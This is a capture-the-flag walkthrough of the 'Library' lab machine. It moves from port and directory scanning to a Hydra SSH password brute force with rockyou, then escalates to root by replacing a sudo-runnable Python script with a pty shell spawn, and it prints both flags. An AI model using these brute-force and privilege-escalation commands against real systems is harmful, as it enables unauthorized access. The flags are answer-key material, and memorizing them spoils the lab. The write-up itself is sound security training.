 # Library Write-Up:

Let's get started!

## Port Scan:

As usual, I started with an Nmap scan to see what I was working with:

```
sudo nmap -vv -sS -sV -sC -oN nmap-out {MACHINE_IP}
```

It returned the following ports:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
```

## Directory Enumeration:

I then used a new tool called **Feroxbuster** to enumerate the website:

```
feroxbuster -u http://{MACHINE_IP}/ -x php,txt,html -w /usr/share/wordlists/directory-list-2.3-medium.txt --extract-links --output page_enum 
```

![ferox](./screenshots/ferox.png)

Incredibly fast, and beautiful too!

It returned the following:

```
http://{MACHINE_IP}/images
http://{MACHINE_IP}/index.html
http://{MACHINE_IP}/robots.txt
```

## Exploration:

There is a **robots.txt** file containing the following:

```
User-agent: rockyou 
Disallow: /
```

Interesting. Maybe this is a hint about the wordlist we are supposed to use?

I looked on the homepage of the site for any hints:

![userhint](./screenshots/userhint.png)

Maybe we can crack this username with Hydra?

I ran the following:

```
hydra -t 64 -l meliodas -P /usr/share/wordlists/rockyou.txt {MACHINE_IP} ssh
```

And we got a password:

```
[22][ssh] host: {MACHINE_IP}   login: meliodas   password: iloveyou1
```

I SSH'd into the machine with the above credentials:

```
ssh meliodas@{MACHINE_IP}
```

## Finding The User Flag:

Now that I have a shell, let's get that user flag!

In the current directory, there is a **user.txt** file:

```
6d488cbb3f111d135722c33cb635f4ec
```

That is the User Flag!

## Getting The Root Flag:

In the home directory, there is a file called **bak.py**:

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

I typed **sudo -l** and got the following:

```
User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

So, I can run the **bak.py** file as super-user. 

I tried seeing if there were any avenues for code injection in the **bak.py** file. I could not find any. 

The file was also write-protected.

But, it turns out that I could delete and then rewrite the file with the same name.

Start by deleting the file:

```
rm -f /home/meliodas/bak.py
```

Then create a new file with the same name. The python code that is written will spawn a bash shell. Since we can run the **bak.py** file as the super-user, the resulting shell should be as root:

```
echo 'import pty; pty.spawn("/bin/sh")' > /home/meliodas/bak.py
```

Now we run the new **bak.py** file:

```
sudo python /home/meliodas/bak.py 
```

Now we are root!

Found the file **/root/root.txt**:

```
e8c8c6c256c35515d1d344ee0488c617
```

That is our flag!
